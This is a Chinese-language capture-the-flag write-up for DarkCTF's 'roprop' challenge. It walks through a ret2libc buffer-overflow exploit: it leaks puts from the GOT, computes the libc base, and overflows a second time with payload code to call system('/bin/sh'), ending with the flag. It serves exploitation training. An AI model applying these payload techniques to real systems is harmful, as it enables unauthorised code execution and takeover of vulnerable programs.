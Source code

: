 # roprop
簡單的ret2lib問題,先看一下security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE沒開,表示我們可以找到正確的address跟plt.got table.


稍微disas 看一下發現沒有什麼可以直接用的function,再看一下plt table,發現有puts@plt, 我們可以利用puts function來leak libc address,然後算出base address,再得到system的address.

我們要進行兩次overflow,第一次利用puts function印出puts在got table的address,得到libc這次執行的address,由於每次執行base address都不一樣,所以我們要跳回到main的起點再運行一次程式，這樣base address仍會一樣.

第一次的payload:
```
...
gadget2 = 0x00400963 # pop rdi; ret;
align_gadget = 0x00400646 # ret;
...
payload = b'A'*88 + p64(align_gadget) + p64(gadget2) + p64(got_puts) + p64(plt_puts) + p64(main)  
...
```
透過ghidra或是gdb可以得到overflow的offset是88 bytes,由於x86 64在呼叫library function時會有stack alignment的問題,所以使用一個只有ret;的gadget來使stack align,然後呼叫puts function印出puts在got table上記錄的address,扣掉puts function在libc中的offset就能得到base address,再加上system的offset就是system的address.

透過以下code得到base address跟system function address:
```
...
libc_puts = proc.recvline()
# leak base address
libc_puts = u64(libc_puts[:-1].ljust(8, b'\x00'))
libc_base = libc_puts - libc.symbols['puts'] # calculate base address
libc_system = libc_base + libc.symbols['system'] # obtain system address
libc_binsh = libc_base + libc.search('/bin/sh').next() # find  "/bin/sh" string in libc
...
```
再進行第二次的overflow,這一次只要利用之前得到的system function address呼叫system("/bin/sh"),就可以得到command line.
```
...
payload = b'A'*88 + p64(gadget2) + p64(libc_binsh) + p64(libc_system) 
...
```
由於不會再呼叫其他library function,所以有沒有stack align都沒有關係,但如果之後還要再呼叫function就必須做align,不然會出錯.

執行exploit.py得到flag:
```
darkCTF{y0u_r0p_r0p_4nd_w0n}
```

